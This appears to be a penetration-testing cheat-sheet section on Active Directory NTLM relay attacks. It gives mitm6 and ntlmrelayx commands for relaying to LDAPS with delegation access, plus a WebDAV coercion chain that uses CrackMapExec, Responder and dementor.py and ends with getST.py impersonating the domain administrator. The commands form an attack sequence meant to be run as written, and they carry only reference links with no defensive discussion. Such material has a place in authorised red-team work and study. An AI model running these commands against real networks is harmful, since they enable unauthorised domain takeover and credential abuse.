 {% file src="/.gitbook/assets/From Zero Credential to Full Domain Compromise (Haboob Team).pdf" %}

```
$ ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access -wh attacker-wpad --no-smb-server --no-wcf-server --no-raw-server --no-dump --no-da --no-acl --no-validate-privs [-debug]
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```




## WebDav + LDAPS NTLM Relay + RBCD

- [https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb)
- [https://gist.github.com/zimnyaa/dcac97f3106e96053a1acb6ca9974e55](https://gist.github.com/zimnyaa/dcac97f3106e96053a1acb6ca9974e55)
- [https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/](https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/)
- [https://github.com/med0x2e/NTLMRelay2Self](https://github.com/med0x2e/NTLMRelay2Self)
- [https://github.com/BronzeBee/DavRelayUp](https://github.com/BronzeBee/DavRelayUp)

```
$ cme smb 192.168.1.0/24 -u snovvcrash -p 'Passw0rd!' -M webdav
$ ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access [--escalate-user 'PWNED-MACHINE$'] --no-smb-server --no-wcf-server --no-raw-server --no-dump --no-da --no-acl --no-validate-privs
$ sudo ./Responder.py -I eth0 -wd -P -v
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@80/test.txt VICTIM.megacorp.local
$ getST.py -spn cifs/VICTIM.megacorp.local MEGACORP/'PWNED-MACHINE$' -dc-ip 192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -impersonate administrator
```

